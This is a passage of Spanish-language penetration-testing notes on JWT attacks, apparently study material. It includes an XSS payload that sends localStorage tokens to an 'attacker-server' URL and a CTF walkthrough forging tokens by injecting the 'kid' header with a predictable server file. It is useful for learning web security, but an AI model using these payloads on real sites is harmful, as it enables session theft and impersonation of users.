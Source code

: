 Forzar brutamente/adivinar el secreto utilizado para firmar un token:

![[Pasted image 20240311160142.png]]
#### Escenario de ataque JWT 2 <a href="#jwt-attack-scenario-2" id="jwt-attack-scenario-2"></a>

Al atacar la autenticación a través de un vuln XSS, generalmente intentamos capturar una cookie de víctima de la siguiente manera:

```
<script>alert(document.cookie)</script>
```

Cuando se emplea JWT se utiliza un localStorage, podemos atacar la autenticación a través de XSS usando JSON.stringify:

```
 <img src='https://attacker-server/yikes?jwt='+JSON.stringify(localStorage);'--!>
```

> si obtiene un IdToken, puede usarlo para autenticar y suplantar a la víctima si obtiene un accessToken, puede usarlo para generar un newIdToken con la ayuda del punto de conexión de autenticación

#### Escenario de ataque JWT 3 <a href="#jwt-attack-scenario-3" id="jwt-attack-scenario-3"></a>

Un desafío CTF de bitcoin que incluyó a JWT:

* uppon inicio de sesión exitoso, el usuario recibe un JWT dentro de una cookie
* Se utiliza HS256
* Existe un usuario llamado admin
* Uno de los campos del encabezado JWT, kid, es utilizado por el servidor para recuperar la clave y verificar la firma. El problema es que no se produce una fuga adecuada mientras se hace.

> Si un atacante logra controlar o inyectar a kid', podrá crear sus propios tokens firmados (ya que **kid** es esencialmente la clave que se usa para verificar la firma)

Lo que podemos hacer: Inyecte **kid** y especifique un valor que resida en el servidor web y que pueda ser predicho (así como recuperado por el servidor, por supuesto)

* A través de errores provocadores, identificamos que la aplicación está usando **Sinatra** bajo el capó
* Dicho valor podría ser 'public/css/bootstrap.css' <: este valor proviene de la documentación/mejores prácticas de Sinatras y es un valor legítimo, ya que no se produce ningún escape adecuado al recuperar **kid**

![[Pasted image 20240311160201.png]]

![[Pasted image 20240311160213.png]]

### OAuth <a href="#oauth" id="oauth"></a>

Es el principal estándar web para la autorización entre servicios. Se utiliza para autorizar a las aplicaciones de terceros a acceder a servicios o datos de un proveedor con el que tiene una cuenta.

#### Componentes de OAuth: <a href="#oauth-components" id="oauth-components"></a>
